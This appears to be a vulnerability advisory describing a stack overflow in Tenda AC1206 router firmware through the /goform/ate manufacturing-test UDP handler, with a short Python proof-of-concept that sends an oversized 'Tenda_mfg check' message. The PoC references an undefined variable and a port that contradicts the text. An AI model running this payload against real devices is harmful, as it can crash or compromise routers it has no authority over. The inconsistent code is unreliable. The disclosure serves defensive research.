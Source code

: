 # Description



Tenda AC1206 `ate_Tenda_mfg_check_usb3` and `ate_Tenda_mfg_check_usb` has stack overflow vulnerability. This vulnerability refer the CVE-2024-9793 and make more

[firmware download](https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip)

# Affected version

AC series (AC1206, AC7, AC23 have been submitted separately)

11AC Routers-Tenda US (tendacn.com)

G series

Wired Enterprise Router-Tenda US (tendacn.com)

W series

In-wall AP-Tenda US (tendacn.com)

I series

Ceiling AP-Tenda US (tendacn.com)

O series

Outdoor CPE-Tenda US (tendacn.com)

A series

Range Extenders-Tenda US (tendacn.com)

VD series

xDSL Modem Routers-Tenda US (tendacn.com)


# details



When accessing `url:/goform/ate`, `TendaAte` will be called

![](w01.png)



The `TendaAte` function creates a thread and calls `ate_main_handle`, but, the recv_buf stack var size is ***4096***,  and recv from socket most ***0x1000***

![](000.png)

![](001.png)

In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

![](01.png)

When `command` is `Tenda_mfg`and `arg` is `check` or `check USB3.0`, the `ate_Tenda_mfg_check_usb ` or `ate_Tenda_mfg_check_usb3` function is called, the both functions are similar, like:

![](02.png)

![](03.png)

![](04.png)



in `readUsb` function,  the variale `mntFileName` size is ***512*** char, but , there use `sprintf` function to format the two variables into `mntFileName`, there is no ckeck , And will cause stack overflow. maybe cause RCE, furtherly

![](05.png)



![](06.png)


find that, the child thread `300` crash
![](07.png)

poc:

```python
import socket
import time
import os

os.system('curl http://172.30.214.100/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('172.30.214.100', 80)
command = b's' * 999
message = b'Tenda_mfg check'+ chars

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```



